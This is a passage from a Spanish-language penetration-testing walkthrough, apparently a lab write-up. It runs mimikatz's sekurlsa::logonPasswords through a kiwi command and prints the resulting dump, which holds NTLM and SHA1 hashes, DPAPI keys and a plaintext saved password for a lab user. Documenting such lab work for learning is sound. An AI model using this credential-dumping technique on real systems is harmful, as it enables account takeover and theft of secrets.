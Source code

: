 ```
desktop-eala4jn$  WORKGROUP        (null)
```

Podremos ver que en concreto saco las credenciales (`hash`) de un usuario llamado `d1se0`, pero tampoco nos sirve mucho ya que no tenemos credenciales en `texto plano`.

Ahora vamos a utilizar el lenguaje nativo de `mimikatz` para dumpear las contraseñas que estan injectadas en memoria de la siguiente forma:

```shell
kiwi_cmd sekurlsa::logonPasswords
```

Info:

```
Authentication Id : 0 ; 243358 (00000000:0003b69e)
Session           : Interactive from 1
User Name         : d1se0
Domain            : DESKTOP-EALA4JN
Logon Server      : DESKTOP-EALA4JN
Logon Time        : 22/11/2024 9:56:18
SID               : S-1-5-21-1577662185-671283546-3547771585-1001
        msv :
         [00000003] Primary
         * Username : d1se0
         * Domain   : DESKTOP-EALA4JN
         * NTLM     : b1f702c125f162ed66636c7d825429e2
         * SHA1     : e61017f4322524b60e6c7bfcfd25adfeb2bd56b9
         * DPAPI    : e61017f4322524b60e6c7bfcfd25adfe
        tspkg :
        wdigest :
         * Username : d1se0
         * Domain   : DESKTOP-EALA4JN
         * Password : (null)
        kerberos :
         * Username : d1se0
         * Domain   : DESKTOP-EALA4JN
         * Password : (null)
        ssp :
        credman :
         [00000000]
         * Username : d1se0
         * Domain   : 192.168.5.182
         * Password : diseo
        cloudap :

Authentication Id : 0 ; 243254 (00000000:0003b636)
Session           : Interactive from 1
User Name         : d1se0
Domain            : DESKTOP-EALA4JN
Logon Server      : DESKTOP-EALA4JN
Logon Time        : 22/11/2024 9:56:18
SID               : S-1-5-21-1577662185-671283546-3547771585-1001
        msv :
         [00000003] Primary
         * Username : d1se0
         * Domain   : DESKTOP-EALA4JN
         * NTLM     : b1f702c125f162ed66636c7d825429e2
         * SHA1     : e61017f4322524b60e6c7bfcfd25adfeb2bd56b9
         * DPAPI    : e61017f4322524b60e6c7bfcfd25adfe
        tspkg :
        wdigest :
         * Username : d1se0
         * Domain   : DESKTOP-EALA4JN
         * Password : (null)
```